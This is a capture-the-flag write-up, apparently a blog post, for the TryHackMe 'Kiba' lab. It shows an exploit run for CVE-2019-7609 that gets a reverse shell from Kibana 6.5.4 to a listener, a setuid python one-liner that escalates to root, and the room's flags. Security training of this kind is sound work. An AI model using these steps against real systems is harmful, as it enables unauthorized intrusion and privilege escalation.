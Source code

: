```yaml
---
layout: post
title: "THM - Kiba"
date: 2023-06-07  
categories: [Tryhackme, THM-linux]
tags: [kiba, elastic, prototype pollution, CVE-2019-7609]
image: https://github.com/sh3bu/sh3bu.github.io/assets/67383098/0c896423-6f32-43e8-987b-3fee1fd59fc0

---
```


**Kiba** is a easy rated room from tryhackme where we exploit a prototype pollution vulnerability to gain a user shell  & then escalate our privileges to root by exploiting a python3 binary which has setuid capabilities.

![image](https://github.com/sh3bu/sh3bu.github.io/assets/67383098/d56c1402-f735-4d9b-a9c3-4351611433ef)

|  **Room** 	| Kiba                                          	|
|:--------------:	|----------------------------------------------------	|
|     **OS**     	| Linux                                              	|
| **Difficulty** 	| Easy                                             	|
|  **Room Link** 	| [https://tryhackme.com/room/kiba](https://tryhackme.com/room/kiba)               	|
|   **Creator**  	| [stuxnet](https://tryhackme.com/p/stuxnet) 	|


## What is the vulnerability that is specific to programming languages with prototype-based inheritance? 

![image](https://github.com/sh3bu/sh3bu.github.io/assets/67383098/698e9f80-fccf-49e8-8e0a-4259426abb89)

> Vulnerability - Prototype Pollution

## What is the version of visualization dashboard installed in the server?

Go to **Management tab** , there we can find the version of kiba that is running.

![image](https://github.com/sh3bu/sh3bu.github.io/assets/67383098/c37a64bd-5b7a-4ac2-af0a-d3fca7ac158d)

> Version - 6.5.4

## What is the CVE number for this vulnerability? This will be in the format: CVE-0000-0000 /

A simple google search reveals the **CVE** number.

![image](https://github.com/sh3bu/sh3bu.github.io/assets/67383098/14e1e57c-7956-484d-9518-3964b66eb702)

> CVE ID - CVE-2019-7609

## Compromise the machine and locate user.txt

An python3 exploit for prototype pollution is available on github for  kibana  6.5.4 

- [https://github.com/LandGrey/CVE-2019-7609](https://github.com/LandGrey/CVE-2019-7609)

*Run the Exploit*

```bash
amrita22005client@ubuntu:~/kiba$ python3 exploit.py http://10.10.38.106:5601 10.17.45.3 4444
/home/amrita22005client/kiba/exploit.py:15: DeprecationWarning: The distutils package is deprecated and slated for removal in Python 3.12. Use setuptools or check PEP 632 for potential alternatives
  from distutils.version import StrictVersion
[•] Kibana version identified: 6.5.4
[✓] Version is vulnerable
[✓] Target seems vulnerable
[✓] Exploit completed
[➜] Check your listener on 10.17.45.3:4444
```

We get our reverse shell

```bash
shebut@ubuntu:~/kiba$ nc -lvnp 4444
Listening on 0.0.0.0 4444
Connection received on 10.10.38.106 48624
bash: cannot set terminal process group (945): Inappropriate ioctl for device
bash: no job control in this shell
To run a command as administrator (user "root"), use "sudo <command>".
See "man sudo_root" for details.

kiba@ubuntu:/home/kiba/kibana/bin$ id
id
uid=1000(kiba) gid=1000(kiba) groups=1000(kiba),4(adm),24(cdrom),27(sudo),30(dip),46(plugdev),114(lpadmin),115(sambashare)
kiba@ubuntu:/home/kiba/kibana/bin$ cd ~
cd ~
kiba@ubuntu:/home/kiba$ cat user.txt
cat user.txt
THM{1s_*********_rce}
```

> **Capabilities is a concept that provides a security system that allows "divide" root privileges into different values**

## How would you recursively list all of these capabilities?

Command to list all capabilities - `getcap -r /`

```bash
kiba@ubuntu:/home/kiba/kibana/bin$ getcap -r / 2>/dev/null

/home/kiba/.hackmeplease/python3 = cap_setuid+ep
/usr/bin/mtr = cap_net_raw+ep
/usr/bin/traceroute6.iputils = cap_net_raw+ep
/usr/bin/systemd-detect-virt = cap_dac_override,cap_sys_ptrace+ep
```
Straightaway we can see that python3 has a suspicious path.

We can go to [GTFOBINS](https://gtfobins.github.io/gtfobins/python/#capabilities) to exploit the python binary which has setuid capabilities by runing the command `python -c 'import os; os.setuid(0); os.system("/bin/sh")'`

```bash 
# id
uid=0(root) gid=1000(kiba) groups=1000(kiba),4(adm),24(cdrom),27(sudo),30(dip),46(plugdev),114(lpadmin),115(sambashare)

# cat /root/root.txt
THM{pr1v1lege_escalat1on_us1ng_capab1l1t1es}
```
Now we have our root shell & our root flag.



